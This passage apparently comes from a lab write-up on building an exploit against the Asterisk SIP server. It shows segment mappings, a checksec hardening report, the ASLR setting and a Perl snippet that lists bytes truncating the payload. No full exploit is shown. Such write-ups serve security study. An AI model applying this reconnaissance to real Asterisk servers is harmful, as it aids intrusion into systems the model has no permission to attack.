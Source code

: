 ```
   00
   01     .interp
   02     .interp .note.ABI-tag .hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .text .fini .rodata
-> 03     .data .eh_frame .dynamic .ctors .dtors .jcr .got .bss
   04     .dynamic
   05     .note.ABI-tag
   06
user@tinysploit2:~$
```

Seems `EDX` points to a RW mapped page within the .data segments etc. Could be useful for later.


As last step of the preparation, lets check the hardening of the binary by using checksec (https://github.com/slimm609/checksec.sh)
```
dobin@minime:~/Desktop/sip$ scp user@192.168.2.136:/usr/bin/asterisk .
user@192.168.2.136's password:
asterisk                                      100% 9137KB   8.9MB/s   00:00
dobin@minime:~/Desktop/sip$ bash checksec.sh -f asterisk
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		46	asterisk
```

And ASLR status:
```
user@tinysploit2:~$ cat /proc/sys/kernel/randomize_va_space
2
```

So, protection is:
- No stack canary
- no PIE
- ASLR is enabled
- NX is enabled

Means we only have to defeat NX and ASLR.




## restricted chars

after testing, i realized that some chars are invalid. They make the asterisk
to stop copying the payload. This includes of course the null bytes \x00, but at least
also the following bytes:
```
$payload .= pack("V", 0x09090909); # tab
$payload .= pack("V", 0x0A0A0A0A); # nl
$payload .= pack("V", 0x0B0B0B0B); # tab
$payload .= pack("V", 0x0C0C0C0C); #
$payload .= pack("V", 0x0D0D0D0D); #
$payload .= pack("V", 0x20202020); # space
```
